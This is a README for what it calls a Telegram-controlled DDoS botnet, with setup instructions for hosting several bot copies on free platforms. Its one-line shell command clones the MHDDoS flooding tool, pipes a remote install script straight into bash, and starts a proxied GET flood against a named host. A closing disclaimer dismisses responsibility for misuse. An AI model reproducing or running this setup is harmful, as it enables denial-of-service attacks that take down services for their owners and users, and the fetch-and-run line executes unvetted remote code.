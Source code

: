 # DDOS Botnet Sample

DDOS BotNet for telegram, just make differents version of this bot with differents telegram token (in .env file pls).

And host it ! (I use [https://glitch.com/dashboard] GLITCH)
<br><br>
## How use it ?

Just clone the repo on your hosting server, make a .env file with a TELEGRAM_TOKEN variable with your telegram token key, 
and make a NUM variable with the name of the bot.
<br><br>
In the shell of your hosting server make this config command : 
<br>
` /usr/bin/python3 -m pip install --upgrade pip && pip3 uninstall telegram && pip3 uninstall telegram-bot python-telegram-bot && pip3 install -r requirements.txt &&git clone https://github.com/MatrixTM/MHDDoS.git && cd MHDDoS && pip3 install -r requirements.txt && curl -s https://raw.githubusercontent.com/SlavaUkraineSince1991/DDoS-for-all/main/scripts/python_git_MHDDoS_proxy_install.sh | bash && python3 ~/MHDDoS/start.py GET panpan-bot1.glitch.me 1 100 mhddos_proxy/list 100 5 `

<br><br>

The installation tutorial is not finished, if you have any problems I can help you.

### Just for educational purpose only, Do, what you want I don’t give a fuck, but it’s not my fault you’re in trouble.
